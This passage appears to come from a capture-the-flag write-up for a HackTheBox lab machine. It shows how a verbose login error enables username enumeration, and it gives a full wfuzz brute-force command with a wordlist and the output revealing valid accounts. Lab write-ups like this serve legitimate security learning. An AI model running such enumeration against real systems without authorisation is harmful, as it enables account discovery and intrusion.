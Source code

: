 ![](../images/max/589/1*q9Cjwm48f6xv9i_DPsfY-Q.png)

## Extra Content <a id="8cb4"></a>

After rooting the machine, I watched [ippsec’s video](https://www.youtube.com/watch?v=CUbWpteTfio) and wanted to share a few cool things that he tried that I didn’t think of trying.

**1- Username Enumeration**

Since the login form outputs a verbose message that indicates to us whether a username exists in the system or not, we can run an automated attack to enumerate usernames. This can be done using a tool called _wfuzz._

First, intercept the login request in Burp.

![](../images/max/755/1*6DgulCJyu71GMWdCDzfHEw.png)

We’re dealing with a POST request and we want to enumerate the field “_username_” field. In _wfuzz_, run the following command.

```text
wfuzz -c -z file,/root/Desktop/tools/SecLists/Usernames/Names/names.txt --hs "Try again" -d "username=FUZZ&password=anything" http://10.10.10.73/login.php
```

* **-c:** Output with colors
* -**z:** payload for each FUZZ keyword used in the form
* **-hs:** hide responses with the specified regex within the content
* **-d:** use post data

We get back the following result showing that “_admin_” and “_chris_” are valid usernames.

```text
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************Target: http://10.10.10.73/login.php
Total requests: 10163===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                 
===================================================================000000086:   200        102 L    659 W    7091 Ch     "admin"                                                                                                                                 
000001883:   200        102 L    659 W    7091 Ch     "chris"Total time: 117.7351
Processed Requests: 10163
Filtered Requests: 10161
Requests/sec.: 86.32089
```

